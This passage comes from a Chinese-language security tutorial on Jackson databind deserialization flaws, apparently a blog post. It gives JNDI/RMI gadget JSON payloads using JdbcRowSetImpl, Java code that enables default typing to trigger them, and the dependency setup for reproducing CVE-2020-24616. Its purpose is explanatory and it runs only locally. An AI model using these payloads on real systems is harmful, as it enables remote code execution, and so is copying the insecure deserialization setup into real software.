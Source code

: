 这里我们做了一个简单的模拟，让服务器在本地调用计算器；

有了以上这些，下面要准备攻击的json字符串，如下所示：

```java
{"@class":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1098/Exploit","autoCommit":true}
```

反序列化相关代码如下：

```java
System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
ObjectMapper objectMapper = new ObjectMapper();
objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_FINAL, JsonTypeInfo.As.PROPERTY);
String json = "{\"@class\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1098/Exploit\",\"autoCommit\":true}";
objectMapper.readValue(json, Object.class);
```

在反序列化的时候，先执行setDataSourceName方法，然后setAutoCommit的时候会自动连接设置的dataSourceName属性，最终获取到Exploit类执行其中的相关操作，以上的程序会在本地调起计算器；


![image-20210325155140627.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/750d4d74d35740389dffc1d60344459e~tplv-k3u1fbpfcp-watermark.image)

如果做升级处理，升级到2.8.10版本，同样执行以上的代码，结果如下：

```java
Exception in thread "main" com.fasterxml.jackson.databind.JsonMappingException: Invalid type definition for type Lcom/sun/rowset/JdbcRowSetImpl;: Illegal type (com.sun.rowset.JdbcRowSetImpl) to deserialize: prevented for security reasons
```

可以发现JdbcRowSetImpl已经进入了jackson的黑名单中；但是黑名单往往是不全的，后续可能经常爆出漏洞，比如这次的漏洞；

#### CVE-2020-24616重现

这样同样使用漏洞前的版本，我们使用2.9.10.5版本，存在漏洞的com.nqadmin.rowset.jdbcrowsetimpl，引入如下：

```xml
<dependency>
	<groupId>com.fasterxml.jackson.core</groupId>
	<artifactId>jackson-databind</artifactId>
	<version>2.9.10.5</version>
</dependency>
<dependency>
    <groupId>com.nqadmin.rowset</groupId>
    <artifactId>jdbcrowsetimpl</artifactId>
    <version>1.0.2</version>
</dependency>
```

再次提供攻击json字符串：

```json
{"@class":"com.nqadmin.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1098/Exploit","autoCommit":true}
```
